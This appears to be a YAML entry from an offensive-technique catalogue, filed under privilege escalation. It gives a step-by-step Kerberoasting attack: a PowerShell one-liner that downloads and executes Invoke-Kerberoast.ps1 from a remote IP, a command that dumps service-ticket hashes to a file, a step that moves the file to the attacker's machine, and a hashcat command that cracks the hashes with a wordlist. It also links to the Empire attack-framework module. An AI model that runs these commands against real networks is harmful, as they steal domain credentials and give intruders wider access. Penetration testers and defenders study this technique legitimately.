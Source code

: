 ```yaml
---
functions:
  privilege-escalation:
    - description: Execute a function, script, or application as another user
      code: |
		(1)	IEX((New-Object System.Net.WebClient).DownloadString('http://192.168.119.174/Invoke-Kerberoast.ps1'))
		(2)	Invoke-Kerberoast -OutputFormat HashCat|Select-Object -ExpandProperty hash | out-file -Encoding ASCII kerb.txt
		(3) Transfer the file over to attacker's system for cracking
		(4) Choose the account you want to crack and make into a unique file (for speed purposes)
		(5)	hashcat -m 13100 sqlserver.kb /usr/share/wordlists/rockyou.txt --force
	  resources: |
		https://www.pentestpartners.com/security-blog/how-to-kerberoast-like-a-boss/
		https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1
---
```

